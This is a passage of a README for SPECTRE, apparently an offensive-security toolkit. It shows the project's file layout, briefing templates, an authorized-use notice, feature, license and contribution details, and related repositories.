│   │   │   │   ├── sandbox.rs      # Lua 5.4 sandbox (mlua)
│   │   │   │   ├── api.rs          # spectre.* Lua API
│   │   │   │   ├── manifest.rs     # plugin.toml manifest, permissions
│   │   │   │   ├── registry.rs     # Plugin registry, dependency resolution
│   │   │   │   ├── hooks.rs        # Event hooks (10 lifecycle events)
│   │   │   │   └── template.rs     # Plugin scaffolding (5 types)
│   │   │   ├── orchestration/  # Scan orchestration (Phase 4)
│   │   │   │   ├── mod.rs          # Module exports
│   │   │   │   ├── chain.rs        # Scan chaining with step conditions
│   │   │   │   ├── template.rs     # Scan templates and library
│   │   │   │   ├── schedule.rs     # Cron-based scan scheduling
│   │   │   │   ├── profile.rs      # User-defined scan profiles
│   │   │   │   ├── timing.rs       # Adaptive timing adjustment
│   │   │   │   └── checkpoint.rs   # Checkpoint/resume for scans
│   │   │   ├── workflow/       # Workflow automation (Phase 4)
│   │   │   │   ├── mod.rs          # Module exports
│   │   │   │   ├── dsl.rs          # Workflow DSL types
│   │   │   │   ├── parser.rs       # YAML/JSON/TOML parser
│   │   │   │   ├── executor.rs     # Async workflow executor
│   │   │   │   ├── variables.rs    # Variable store and substitution
│   │   │   │   ├── template.rs     # Built-in workflow templates
│   │   │   │   └── persistence.rs  # Workflow save/load
│   │   │   ├── recipe/         # Recipe management (Phase 4)
│   │   │   │   ├── mod.rs          # Module exports
│   │   │   │   ├── storage.rs      # File-based recipe storage
│   │   │   │   ├── format.rs       # Import/export (JSON/YAML/TOML)
│   │   │   │   ├── search.rs       # Recipe search and browsing
│   │   │   │   ├── validate.rs     # Recipe validation
│   │   │   │   └── builtin.rs      # Built-in recipe library
│   │   │   ├── report/         # Report generation (Phase 4)
│   │   │   │   ├── mod.rs          # Module exports, ReportData
│   │   │   │   ├── template.rs     # Report template config
│   │   │   │   ├── html.rs         # HTML report generator
│   │   │   │   ├── markdown.rs     # Markdown report generator
│   │   │   │   └── summary.rs      # Executive summary builder
│   │   │   ├── export/         # Export formats (Phase 4)
│   │   │   │   ├── mod.rs          # Module exports
│   │   │   │   ├── csv.rs          # CSV exporter (results/hosts/findings)
│   │   │   │   ├── template.rs     # Custom export template engine
│   │   │   │   ├── scheduler.rs    # Export scheduling
│   │   │   │   └── incremental.rs  # Incremental export tracking
│   │   │   └── perf/           # Performance optimization (Phase 4)
│   │   │       ├── mod.rs          # Module exports
│   │   │       ├── cache.rs        # LRU cache implementation
│   │   │       ├── pool.rs         # Connection pool (async mutex)
│   │   │       └── metrics.rs      # Performance metrics collection
│   │   └── tests/              # Integration tests (Phase 4)
│   │       ├── integration_orchestration.rs  # Scan orchestration tests (9)
│   │       ├── integration_workflow.rs       # Workflow engine tests (9)
│   │       ├── integration_report.rs         # Report generation tests (7)
│   │       ├── integration_export.rs         # Export format tests (8)
│   │       ├── integration_plugin.rs         # Plugin system tests (6)
│   │       └── integration_perf.rs           # Performance layer tests (6)
│   ├── spectre-tui/        # TUI dashboard (18 files, 235 tests)
│   │   ├── Cargo.toml
│   │   └── src/
│   │       ├── lib.rs          # Module declarations, re-exports
│   │       ├── app.rs          # App struct, state management, event dispatch
│   │       ├── event.rs        # Async EventHandler (crossterm + tick timer)
│   │       ├── terminal.rs     # Terminal init/restore, panic hook
│   │       ├── tui.rs          # Main run() entry point with async event loop
│   │       ├── layout.rs       # 4-panel layout, Grid/Wide/Tall/Focus modes
│   │       ├── theme.rs        # 5 built-in themes, color schemes
│   │       ├── command.rs      # Command input, 11 commands, history, completion
│   │       ├── keybindings.rs  # Key mapping, vim-style nav, F-keys
│   │       ├── scan_state.rs   # Scan progress tracking, ETA, filtering
│   │       ├── panels/         # 4 panel implementations
│   │       │   ├── recon.rs        # Scan metrics, progress bar, results table
│   │       │   ├── analysis.rs     # CyberChef recipe status, output preview
│   │       │   ├── comms.rs        # Peer connections, transfer queue
│   │       │   └── campaign.rs     # Phase timeline, campaign metrics
│   │       └── widgets/        # Shared widget components
│   │           ├── help_overlay.rs # Help popup with keybinding groups
│   │           └── status_bar.rs   # Header bar + status bar rendering
│   ├── spectre-gui/        # GUI application (planned)
│   └── spectre-mcp/        # MCP server (planned)
│
├── configs/
│   └── spectre.toml        # Default configuration
│
├── docs/
│   ├── architecture/       # System design documentation
│   ├── user-guide/         # Usage documentation
│   ├── integration/        # Component integration guides
│   ├── briefings/          # Mission briefing templates
│   ├── development/        # Developer documentation
│   ├── api/                # API specifications
│   ├── security/           # Security documentation
│   ├── deployment/         # Deployment guides
│   ├── tutorials/          # Step-by-step tutorials
│   └── reference/          # Reference materials
│
├── to-dos/                 # Sprint planning (7 phases)
│
├── .github/
│   ├── workflows/          # CI/CD (ci.yml, release.yml)
│   ├── ISSUE_TEMPLATE/     # Bug report, feature request
│   └── PULL_REQUEST_TEMPLATE.md
│
└── tests/                  # Integration tests (planned)
```

---

## Mission Briefing Documentation

SPECTRE documentation follows military operational formatting for clarity and familiarity. Templates are available in `docs/briefings/`.

### OPORD (Operations Order)

Standard 5-paragraph format for campaign planning — see [OPORD-template.md](docs/briefings/OPORD-template.md).

### SITREP (Situation Report)

Real-time campaign status updates — see [SITREP.md](docs/briefings/SITREP.md).

### CONOP (Concept of Operations)

Detailed operational methodology — see [CONOP-template.md](docs/briefings/CONOP-template.md).

### AAR (After Action Review)

Post-campaign analysis — see [AAR-template.md](docs/briefings/AAR-template.md).

---

## Security & Legal

### Responsible Use

> **IMPORTANT:** SPECTRE is designed for authorized security testing only.

- Only use on networks you own or have explicit written permission to test
- Unauthorized scanning and intrusion may violate laws (CFAA, CMA, etc.)
- Always obtain proper authorization and define scope before testing
- Follow your organization's rules of engagement (ROE)

### Security Features

- All communications encrypted with modern cryptography (XChaCha20-Poly1305)
- Traffic analysis resistance built-in (Elligator2, protocol mimicry)
- No telemetry or phone-home functionality
- Audit logging for compliance
- Post-quantum hybrid encryption available (X25519 + ML-KEM-768)

---

## Contributing

We welcome contributions! See [CONTRIBUTING.md](CONTRIBUTING.md) for detailed guidelines.

**Component-specific guidelines:**

- [WRAITH-Protocol CONTRIBUTING.md](https://github.com/doublegate/WRAITH-Protocol/blob/main/CONTRIBUTING.md)
- [ProRT-IP CONTRIBUTING.md](https://github.com/doublegate/ProRT-IP/blob/main/CONTRIBUTING.md)
- [CyberChef-MCP CONTRIBUTING.md](https://github.com/doublegate/CyberChef-MCP/blob/main/CONTRIBUTING.md)

### Development Standards

- Rust code: `cargo fmt`, `cargo clippy -- -D warnings`, pedantic/nursery clean
- TypeScript/JavaScript: ESLint, Prettier
- Commit messages: [Conventional Commits](https://www.conventionalcommits.org/)
- All PRs require tests and documentation
- See [SECURITY.md](SECURITY.md) for vulnerability reporting

---

## License

SPECTRE is a multi-license project reflecting its component licenses:

| Component                          | License    |
| ---------------------------------- | ---------- |
| SPECTRE (CLI, Core, TUI, GUI, MCP) | MIT        |
| WRAITH-Protocol                    | MIT        |
| ProRT-IP                           | GPLv3      |
| CyberChef-MCP                      | Apache 2.0 |

See individual component repositories for full license texts.

---

## Acknowledgments

SPECTRE builds on the shoulders of giants:

**Security Research:**
[Nmap](https://nmap.org/) |
[Masscan](https://github.com/robertdavidgraham/masscan) |
[Cobalt Strike](https://www.cobaltstrike.com/) |
[Sliver](https://github.com/BishopFox/sliver)

**Cryptography:**
[Noise Protocol](https://noiseprotocol.org/) |
[Signal Protocol](https://signal.org/docs/) |
[WireGuard](https://www.wireguard.com/)

**Data Analysis:**
[CyberChef](https://github.com/gchq/CyberChef) |
[Model Context Protocol](https://modelcontextprotocol.io/)

---

## Links

- **Repository:** [github.com/doublegate/SPECTRE](https://github.com/doublegate/SPECTRE)
- **Issues:** [GitHub Issues](https://github.com/doublegate/SPECTRE/issues)
- **Discussions:** [GitHub Discussions](https://github.com/doublegate/SPECTRE/discussions)

### Related Repositories

| Repository                                                       | Description                               |
| ---------------------------------------------------------------- | ----------------------------------------- |
| [WRAITH-Protocol](https://github.com/doublegate/WRAITH-Protocol) | Secure communications component (v2.3.7)  |
| [ProRT-IP](https://github.com/doublegate/ProRT-IP)               | Network reconnaissance component (v1.0.0) |
| [CyberChef-MCP](https://github.com/doublegate/CyberChef-MCP)     | Data analysis component (v1.8.0)          |

---

**SPECTRE** — _Unified Offensive Security_

**Version:** 0.4.2 | **License:** Multi-license | **Language:** Rust + TypeScript | **Status:** Active Development

**Last Updated:** 2026-02-04
